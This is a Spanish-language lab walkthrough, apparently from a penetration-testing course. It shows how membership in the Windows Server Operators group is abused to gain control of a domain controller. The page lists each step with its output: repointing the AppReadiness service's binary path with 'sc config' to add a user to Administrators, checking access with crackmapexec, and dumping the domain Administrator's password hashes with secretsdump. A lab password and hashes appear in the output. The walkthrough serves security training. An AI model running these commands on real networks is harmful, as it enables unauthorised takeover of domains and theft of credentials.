 El [Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators) group permite a los miembros administrar servidores Windows sin necesidad de asignar privilegios de Domain Admin. Es un grupo con privilegios muy altos que puede iniciar sesión localmente en los servidores, incluidos los Domain Controllers.

Ser miembro de este grupo confiere los poderosos privilegios `SeBackupPrivilege` y `SeRestorePrivilege` y la capacidad de controlar servicios locales.

### Querying the AppReadiness Service

Examinemos el servicio `AppReadiness`. Podemos confirmar que este servicio se inicia como SYSTEM utilizando la utilidad `sc.exe`.

```r
C:\htb> sc qc AppReadiness

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AppReadiness
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\System32\svchost.exe -k AppReadiness -p
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : App Readiness
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

### Checking Service Permissions with PsService

Podemos usar el visualizador/controlador de servicios [PsService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice), que forma parte del paquete Sysinternals, para verificar los permisos en el servicio. `PsService` funciona de manera similar a la utilidad `sc` y puede mostrar el estado y las configuraciones del servicio, y también permite iniciar, detener, pausar, reanudar y reiniciar servicios tanto localmente como en hosts remotos.

```r
C:\htb> c:\Tools\PsService.exe security AppReadiness

PsService v2.25 - Service information and configuration utility
Copyright (C) 2001-2010 Mark Russinovich
Sysinternals - www.sysinternals.com

SERVICE_NAME: AppReadiness
DISPLAY_NAME: App Readiness
        ACCOUNT: LocalSystem
        SECURITY:
        [ALLOW] NT AUTHORITY\SYSTEM
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                Pause/Resume
                Start
                Stop
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Administrators
                All
        [ALLOW] NT AUTHORITY\INTERACTIVE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] NT AUTHORITY\SERVICE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Server Operators
                All
```

Esto confirma que el grupo Server Operators tiene el derecho de acceso [SERVICE_ALL_ACCESS](https://docs.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights), lo que nos da control total sobre este servicio.

### Checking Local Admin Group Membership

Veamos los miembros actuales del grupo de administradores locales y confirmemos que nuestra cuenta objetivo no está presente.

```r
C:\htb> net localgroup Administrators

Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
The command completed successfully.
```

### Modifying the Service Binary Path

Cambiemos la ruta binaria para ejecutar un comando que agregue nuestro usuario actual al grupo de administradores locales predeterminado.

```r
C:\htb> sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"

[SC] ChangeServiceConfig SUCCESS
```

### Starting the Service

El inicio del servicio falla, lo cual es esperado.

```r
C:\htb> sc start AppReadiness

[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

### Confirming Local Admin Group Membership

Si verificamos la membresía del grupo de administradores, vemos que el comando se ejecutó con éxito.

```r
C:\htb> net localgroup Administrators

Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
server_adm
The command completed successfully.
```

### Confirming Local Admin Access on Domain Controller

A partir de aquí, tenemos control total sobre el Domain Controller y podríamos recuperar todas las credenciales de la base de datos NTDS, acceder a otros sistemas y realizar tareas de post-explotación.

```r
crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'

SMB         10.129.43.9     445    WINLPE-DC01      [*] Windows 10.0 Build 17763 (name:WINLPE-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.43.9     445    WINLPE-DC01      [+] INLANEFREIGHT.LOCAL\server_adm:HTB_@cademy_stdnt! (Pwn3d!)
```

### Retrieving NTLM Password Hashes from the Domain Controller

```r
secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator

Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:5db9c9ada113804443a8aeb64f500cd3e9670348719ce1436bcc95d1d93dad43
Administrator:aes128-cts-hmac-sha1-96:94c300d0e47775b407f2496a5cca1a0a
Administrator:des-cbc-md5:d60dfbbf20548938
[*] Cleaning up...
```